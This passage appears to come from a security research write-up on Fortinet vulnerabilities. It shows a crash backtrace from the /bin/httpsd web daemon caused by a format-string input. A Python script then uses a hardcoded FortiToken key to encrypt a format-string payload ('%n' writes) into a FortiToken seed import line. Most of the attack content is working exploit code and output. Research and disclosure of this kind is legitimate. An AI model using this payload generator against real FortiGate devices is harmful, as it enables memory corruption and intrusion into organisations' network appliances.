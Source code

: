 ```text
  0007a826
  <02946> [0x7f132d335d42] => /usr/lib/x86_64-linux-gnu/libc.so.6 
  (__snprintf+0x00000092) liboffset 00053d42
  <02946> [0x0222351b] => /bin/httpsd  
  <02946> [0x02223a65] => /bin/httpsd  
  <02946> [0x00ddb567] => /bin/httpsd  
  <02946> [0x00d08dc4] => /bin/httpsd  
  <02946> [0x00d09419] => /bin/httpsd  
  <02946> [0x00d0b547] => /bin/httpsd  
  <02946> [0x00d0d01d] => /bin/httpsd  
  <02946> [0x00caeef9] => /bin/httpsd  
  <02946> [0x00e9984a] => /bin/httpsd (ap_run_handler+0x0000004a) 
  <02946> [0x00e9a0a6] => /bin/httpsd (ap_invoke_handler+0x000000c6) 
  <02946> [0x00ee1ec9] => /bin/httpsd  
  <02946> [0x00ee2111] => /bin/httpsd (ap_process_request+0x00000021) 
  <02946> [0x00eda23f] => /bin/httpsd  
  <02946> [0x00e9e0aa] => /bin/httpsd (ap_run_process_connection+0x0000004a) 
  <02946> [0x00eb3cb7] => /bin/httpsd  
  <02946> [0x00eb3f86] => /bin/httpsd  
  <02946> [0x00eb4174] => /bin/httpsd  
  <02946> [0x00eb47ad] => /bin/httpsd  
  <02946> [0x00eafa51] => /bin/httpsd (ap_run_mpm+0x00000061) 
  <02946> [0x00eaf586] => /bin/httpsd  
  <02946> [0x00449f6f] => /bin/httpsd  
  <02946> [0x0044f498] => /bin/httpsd  
  <02946> [0x0044fc8a] => /bin/httpsd  
  <02946> [0x004524af] => /bin/httpsd  
  <02946> [0x00452dd9] => /bin/httpsd  
  <02946> [0x7f132d305deb] => /usr/lib/x86_64-linux-gnu/libc.so.6 
  (__libc_start_main+0x000000eb) liboffset 00023deb
  <02946> [0x004450da] => /bin/httpsd  
```

R13 contains 0x1337, which just so happens to be the exact number of bytes
we just printed with %4919$1$c. Looks like a vuln to me!

### 2.2 - FortiToken import

MFA solves all security problems, and Fortinet makes MFA easy with 
FortiTokens. Let's generate some FortiToken seed files:

```python
  ----- ftk.py -----
  import base64
  from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
  from cryptography.hazmat.backends import default_backend
  # lol hardcoded key
  FTK_KEY="3F2FE4F6E40B53CFF0B5948993F4D4AB369C7F0375FDC92D64CB3E8880FFAE4E"
  FTK_KEY=bytes.fromhex(FTK_KEY)
  format_str=b'%4919$1$c%n%n%n '
  iv=b'\0'*16
  a=Cipher(algorithms.AES(FTK_KEY), modes.CBC(iv), backend=default_backend())
  e=a.encryptor()
  ct=e.update(format_str)
  ciphertext=base64.b64encode(ct).decode()
  print(f"FTK00000000000EA,{ciphertext},{iv.hex()}")
  ------ ftk.py -----
```
